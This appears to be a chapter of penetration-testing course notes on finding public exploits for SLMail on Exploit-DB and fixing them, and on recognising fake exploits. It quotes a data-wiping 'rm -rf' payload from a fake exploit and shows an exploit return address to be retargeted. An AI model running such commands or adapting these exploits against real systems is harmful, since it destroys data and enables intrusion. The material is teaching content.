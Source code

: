 # 9. - Woking with Exploits

Now that we unsderstand the mechanims behind the buffer overflow class of vulnerabilities, we can proceed to inspect and use other people's exploits. There is an import problem with this. Quit often, malicious hackers release fake exploits into the wild, with the purpose of compromising, or otherwise harming, anyone runnig this code.

The exploit code prompts the user to run it as **root**, which is already suspicious:

```c
if (getuid()) {
    puts("Root is required for raw sockets, etc.");
    return 1;
}
```

Further examination of the shellcode payload shows that the actual payload will execute some evil commands, such as:

```bash
rm -rf ~ /* 2> /dev/null &
```

Which would effectively wipe out your Kali machine. The shellcode then proceeds to connect to a public IRC server and announce your idiocy. So if the Internet is riddled with harmful exploits, where can we find reliable ones?

## 9.1 - Searching for Exploits

There are several reliable sources for public exploit code, such as the **[Exploit-Database](https://www.exploit-db.com/)** and **[SecurityFocus](https://www.securityfocus.com/)** vulnerability archives. The exploits on these sites usually undergo close examination, and are not published if deemed fake.

### 9.1.1 - Finding Exploits in Kali Linux

The Exploit Database is maintained by Offensive Security, and provides an offline copy of all the archived exploits it contains. This archive is present in Kali Linux, and has some useful search features. In the following example, exploits with a matching "slmail" string description are found:

```
root@kali:~# searchsploit slmail
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
SLmail Pro 6.3.1.0 - Multiple Remote D | exploits/windows/dos/31563.txt
Seattle Lab Mail (SLmail) 5.5 - POP3 ' | exploits/windows/remote/16399.rb
Seattle Lab Mail (SLmail) 5.5 - POP3 ' | exploits/windows/remote/638.py
Seattle Lab Mail (SLmail) 5.5 - POP3 ' | exploits/windows/remote/643.c
Seattle Lab Mail (SLmail) 5.5 - POP3 ' | exploits/windows/remote/646.c
--------------------------------------- ----------------------------------------
Shellcodes: No Result
```

### 9.1.2 - Finding Exploits on the Web

The Exploit Database and SecurityFocus exploit archives are both trustworthy sources of exploits, which get updated on a daily basis. In addition, the Exploit Database occasionally matches exploits to vulnerable installations of software, for research purposes.

![exploit-database](https://image.ibb.co/mULxUx/image.png)

SecurityFocus exploit archives will often contain exploit code:

![securityfocus](https://preview.ibb.co/n9wMpx/image.png)

#### 9.1.2.1 - Exercises

1. Identify products that have  a history of problems. Identify products that are typically hard to path.

> ...

2. Look at the frequency of what sort of exploits are released. Can you identify which types of exploits are more common than others?

> ...

3. Understand the different between a reported vulnerability and an exploit.

> ...

## 9.2 - Customizing and Fixing Exploits

Due to varying development enviroments, vulnerable software versions, and different software patches, it is understandable that many (if not most) of the public exploits found on the Internet will not work, straight out of the box. We'll' find everything from wrong offsets, return addressess intended for different operating systems or path levels, and bad code.
Adding to this mess, many exploits might be one shots, meaning that if the exploit is unsuccessful, the service will crash, and will not be available for further exploitation attempts until it is restarted, or until the machine is rebooted.

### 9.2.1 - Setting Up a Development Environment

For the reasons above, we will never run an exploit without first examining its code, and understanding its inner workings. Once we have done that, we will set up a small development environment which matches the operating system version and vulnerable software version, in order to test and improve existing exploits. Once we are fairly certain that our fixed exploit will work on the target machine, we can then proceed to launch it against our victim.

### 9.2.2 - Dealing with Various Exploit Code Languages

Exploit code can come in all forms. From Python, Perl and Ruby scripts, to C or C++. To further complicate things, languages such as C and C++ have different flavors between Linux/Unix and Windows, and this code is often not cross-compatible.

For example, in our previous search for additional SLMail exploits, in the **exploitdb** archive, we found several results. Let's take a closer look at two of them: **643.c** and **646.c**.

#### 9.2.2.1 - Swapping out Shellcode
Most commonly, public exploits will have shellcode that will not suit our purposes.

From shellcodes that pop up a calculator, to bind shells that might not suit out exploitation environment, to reverse shells with hardcoded IPs.

If the program is easily debuggable, such as SLMail, or if the vulnerability is not sensitive to varying buffer sizes, then swapping out the shellcode for the exploit is a relatively simples task. However, for more complex exploits, such as those that bypass DEP and ASLR, swapping out your shellcode might have negative effects on the exploit, due to changes in shellcode size, and resulting misalignment of various instructions in the exploit.

#### 9.2.2.2 - exploitdb - 643.c

The first exploit we look at has the following C directives:

```
root@kali:~# locate 643.c
			...
/usr/share/exploitdb/exploits/windows/remote/643.c
			...
```

```c
root@kali:~# head /usr/share/exploitdb/exploits/windows/remote/643.c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <errno.h>
#include <netinet/in.h>
#include <netdb.h>
#include <string.h>
```

These suggest that this exploit should be compiled in a Unix like environment, with a compiler such as **gcc**.

We peek at the exploit code, and notice several issues with the exploit that will prevent it working as it is. For one, the return address is not relevant to our target machine.

```c
define retadd "\x9f\x45\x3a\x77" /*win2k server sp4 0x773a459f*/
```